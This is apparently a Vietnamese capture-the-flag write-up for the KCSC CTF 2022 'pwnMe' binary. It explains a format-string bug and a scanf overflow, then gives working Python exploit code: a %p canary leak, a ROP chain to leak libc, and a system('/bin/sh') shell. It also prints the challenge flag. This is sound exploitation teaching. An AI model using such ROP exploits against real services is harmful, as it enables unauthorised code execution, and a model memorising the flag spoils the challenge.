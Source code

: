 # KCSC CTF 2022 - pwnMe

Các bạn có thể tải chall ở repo của mình: [pwnMe.zip](pwnMe.zip)

# 1. Tìm lỗi

Đầu tiên ta decompile file với ghidra, nhận thấy chỉ có một hàm main: 

```c
undefined8 main(EVP_PKEY_CTX *param_1)
{
    long in_FS_OFFSET;
    char local_60 [8];
    undefined local_58 [72];
    long local_10;
    
    local_10 = *(long *)(in_FS_OFFSET + 0x28);
    init(param_1);
    puts("Hello there, what\'s your name?");

    /* -------- Vulnerability 1 --------*/
    gets(local_60);
    printf("Hello, ");
    __printf_chk(1,local_60);
    /* -------- Vulnerability 1 --------*/

    puts("What you think about this event: ");
    
    /* -------- Vulnerability 2 --------*/
    // DAT_00402052 = "%s"
    __isoc99_scanf(&DAT_00402052,local_58);
    /* -------- Vulnerability 2 --------*/
    
    puts("bye!");
    if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                      /* WARNING: Subroutine does not return */
      __stack_chk_fail();
    }
    return 0;
}
```

Ta có thể thấy ở lỗi 1 là **Format String** vì ta có thể chọn các loại format string ta muốn để hàm `__printf_chk` thực thi ngoại trừ `%n` vì flag của `__printf_chk` là 1 ([Source](https://code.woboq.org/userspace/glibc/debug/printf_chk.c.html)). Đồng thời `__printf_chk` cũng không cho ta xài dạng rút gọn của format string như là `%<k>$p`, `%<k>$x`...

Lỗi thứ 2 là `scanf()` với format string là `%s` --> **Buffer Overflow**

# 2. Ý tưởng

Với custom format string, ta sẽ dùng `%p` để leak canary ra. Sau đó lợi dụng `scanf("%s",local_58)` để overwrite saved rip và leak địa chỉ libc ra, sau đó cho chương trình chạy lại từ đầu và tạo shell.

Tổng kết:
- Stage 1: Leak canary
- Stage 2.1: Ret2libc - Leak address
- Stage 2.2: Ret2libc - Get shell

# 3. Khai thác

Đây là kỹ thuật cơ bản nên mình sẽ lướt nhanh, các bạn ai không hiểu có thể tạo issue, mình sẽ giải đáp cho nhé :3

### Stage 1: Leak canary

Đầu tiên, ta nhập thử 17 cái `%p` vào để xem liệu ta có leak được canary hay không:

![leak-canary.png](images/leak-canary.png)

Vậy với 16 cái `%p`, ta có thể lấy được canary. Code snippet:

```python
p.sendlineafter(b'name?', b'%p'*16)
p.recvline()
canary = int(p.recvuntil(b"What", drop=True).split(b'0x')[-1], 16)
log.info("Canary: " + hex(canary))
```

### Stage 2.1: Ret2libc - Leak address

Ta đã lấy được canary, việc còn lại chỉ là tìm offset từ chuỗi được nhập ở `scanf()` cho tới canary, và offset từ canary tới saved rip. Debug với gdb, nhập chuỗi `AAAAAAAA` tại lệnh `scanf()` và kiểm tra stack:

![gdb-find-offset.png](images/gdb-find-offset.png)

Bằng cách đếm, ta biết được offset từ chuỗi được nhập tới canary là `0x48` byte và từ canary tới saved rip là `0x8`. Bây giờ ta sẽ leak địa chỉ puts ra với đoạn code tiếp theo:

```python
pop_rdi = 0x00000000004013a3
pop_rsi_r15 = 0x00000000004013a1

payload = b'A'*0x48 + p64(canary) + b'B'*8
payload += flat(
    pop_rdi,
    exe.got['puts'],
    exe.plt['puts'],
    exe.sym['main'])
p.sendlineafter(b'event:', payload)
p.recvline()
p.recvline()
puts_addr = u64(p.recvline()[:-1] + b'\x00\x00')
log.info("Puts address: " + hex(puts_addr))
```

Với địa chỉ leak được, ta vào [đây](https://libc.blukat.me/) để tại libc về:

![leak-puts-addr.png](images/leak-puts-addr.png)

![libc-database-search.png](images/libc-database-search.png)

Có 4 libc, trong đó 2 cái đầu là 32 bit và 2 cái sau là 64 bit. File chall của chúng ta là 64 bit nên ta sẽ thử hết với 2 libc sau. 

Ta thử bằng cách tải libc về và chạy `pwninit` để patch libc và binary. Nếu lỡ chọn sai libc (phải làm hết tới bước lấy shell nhưng không thành công thì mới biết được), ta chỉ việc chạy lại pwntool với libc còn lại.

Tiếp tục, ta thêm đoạn code sau để tìm địa chỉ base của libc:

```python
libc.address = puts_addr - libc.sym['puts']
log.info("Libc base: " + hex(libc.address))
```

### Stage 2.2: Ret2libc - Get shell

Có địa chỉ của libc, ta sẽ tạo shell với cách thức như trên:

```python
p.sendlineafter(b'name?', b'AAAA')
payload = b'A'*0x48 + p64(canary) + b'B'*8
payload += flat(
    pop_rsi_r15,
    0,
    0,
    pop_rdi,
    next(libc.search(b'/bin/sh')),
    libc.sym['system'])
p.sendlineafter(b'event:', payload)
p.interactive()
```

Nếu chạy script với libc này mà không tạo được shell, ta dùng libc còn lại để tạo shell.

> Tips: Nhớ set rsi thành null để tránh gặp lỗi khi thực thi `system("/bin/sh")`

Full code: [solve.py](solve.py)

# 4. Lấy cờ

![get-flag.png](images/get-flag.png)

Flag là `KCSC{abcca9dc165c259d21469e60dc087244}`